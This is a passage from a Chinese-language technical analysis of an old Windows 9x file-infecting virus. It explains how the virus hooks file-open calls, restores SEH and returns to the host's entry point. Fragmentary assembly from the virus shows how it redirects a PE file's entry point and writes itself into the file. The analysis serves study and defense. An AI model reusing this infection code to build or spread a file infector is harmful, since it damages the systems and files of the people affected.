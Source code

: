 退出Ring0之后接着向下走。

```
; *************************************
; * Let's Restore *
; * Structured Exception Handing *
; *************************************
ReadyRestoreSE:
sti

xor ebx, ebx

jmp RestoreSE

RestoreSE:
pop dword ptr fs:[ebx]
pop eax

; *************************************
; * Return Original App to Execute *
; *************************************

pop ebp

push 00401000h ; Push Original
OriginalAddressOfEntryPoint = $-4 ; App Entry Point to Stack

ret ; Return to Original App Entry Point
```

这时，打开中断并恢复之前被病毒修改的SEH，毕竟我们的中断已经关得够久了。

最后，如果是通过其他被感染的程序进来的，就回到之前程序的入口点继续执行，否则，直接ret退出。

接下来，我们分析之前挂钩的函数FileSystemApiHook;

当有文件读写调用时，Windows会调用被病毒替换的FileSystemApiHook。

因为是VXD的驱动程序，程序借鉴意义不大，到这里，我们加快速度，分析的粒度会粗一些。

首先根据系统调用的入参判断是否是打开文件调用。如果是打开文件调用则获取需要打开的文件的路径。

接着，作者用大概100行左右的汇编代码判断一个文件是否是PE文件，如果是PE文件就将病毒代码感染到文件中。

感染的方式将病毒代码写入PE文件，修改PE文件的签名，并修改入口点为病毒代码。

```
; ***************************
; * Let's Modify the *
; * AddressOfEntryPoint to *
; * My Virus Entry Point *
; ***************************

mov (NewAddressOfEntryPoint-@9)[esi], edx

; ***************************
; * Let's Write *
; * Virus Code to the File *
; ***************************

WriteVirusCodeToFile:
......

jmp WriteVirusCodeToFile
```


[^1st]: <https://www.geekpark.net/news/212936>
[^2nd]: <https://www.anquanke.com/post/id/164959>